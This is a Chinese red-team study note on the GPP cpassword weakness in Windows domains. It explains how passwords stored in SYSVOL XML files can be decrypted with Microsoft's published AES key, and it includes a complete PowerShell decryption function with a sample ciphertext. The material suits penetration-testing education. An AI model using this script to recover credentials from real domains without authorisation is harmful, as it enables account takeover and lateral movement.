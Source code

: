 
### GPP

关于 windows 组策略的基本知识点可见笔记 [组策略](../../../Integrated/Windows/笔记/组策略.md)

在 GPP 出现之前，很多统一管理的操作只能通过脚本来实现，而 GPP 方便和简化了这样的管理,GPP 你可以将其理解为一个功能点,作用是简单化、规范化组策略的发布和使用。

注 : GPP 漏洞只在 2008 没打补丁版本上存在，超过 2008 版本的系统是没办法写入密码的。

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹 \SYSVOL 下，默认所有域内用户可访问，虽然被加密，但很容易被解密,访问 XML 文件，利用 AES 私钥可以解密 GPP 密码。

在2012年前的某些点外，微软在 MSDN 上发布了 AES 的私钥，它可以用来解密这种密码。因为认证用户（所有域用户或者信任域里的用户）对 SYSVOL 拥有读权限。在域里的任何用户可以搜索 SYSVOL 共享中的带有 cpassword 字样的 XML 文件，里面包含了 AES 加密的密码。

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/2.png)

- 微软在 MSDN 上发布的 AES 加密密钥（共享密钥） : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

使用 PowerShell 脚本解密 : https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

参考 https://xz.aliyun.com/t/1653 ,可简化 powershell 脚本如下,替换其中 GPP 密码即可
```powershell
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)

        #Set IV to all nulls to prevent dynamic generation of IV value
        $AesIV = New-Object Byte[]($AesObject.IV.Length)
        $AesObject.IV = $AesIV
        $AesObject.Key = $AesKey
        $DecryptorObject = $AesObject.CreateDecryptor()
        [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)

        return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
    }

    catch {Write-Error $Error[0]}
}
Get-DecryptedCpassword "9XLcz+Caj/kyldECku6lQ1QJX3fe9gnshWkkWlgAN1U"
```
